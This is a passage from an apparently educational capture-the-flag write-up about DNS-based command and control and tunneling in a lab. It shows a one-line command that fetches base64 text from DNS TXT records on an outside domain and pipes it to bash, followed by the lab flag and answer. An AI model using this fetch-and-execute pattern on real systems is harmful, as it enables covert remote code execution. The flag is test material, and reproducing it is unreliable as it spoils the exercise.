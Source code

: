 ![DNS TXT Record](/images/thm/dataxexfilt/dataxexfilt_8.png)
_DNS TXT Record_

Then querying sciprt.tunnel.com to verify :

```console
dig +short -t TXT script.tunnel.com | tr -d "\"" | base64 -d | bash
PING test.thm.com (127.0.0.1) 56(84) bytes of data.
64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.045 ms

--- test.thm.com ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.045/0.045/0.045/0.000 ms
PING test.thm.com (127.0.0.1) 56(84) bytes of data.
64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.103 ms

--- test.thm.com ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.103/0.103/0.103/0.000 ms
thm@victim2:~$
```
{: .nolineno }

Finally, let's query flag.tunnel.com :

```console
thm@victim2:~$ dig +short -t TXT flag.tunnel.com | tr -d "\"" | base64 -d | bash
THM{C-tw0-C0mmun1c4t10ns-0v3r-DN5}
```
{: .nolineno }

Answer : THM{C-tw0-C0mmun1c4t10ns-0v3r-DN5}

## TASK 10 : DNS Tunneling
### When the iodine connection establishes to Attacker, run the ifconfig command. How many interfaces are? (including the loopback interface)
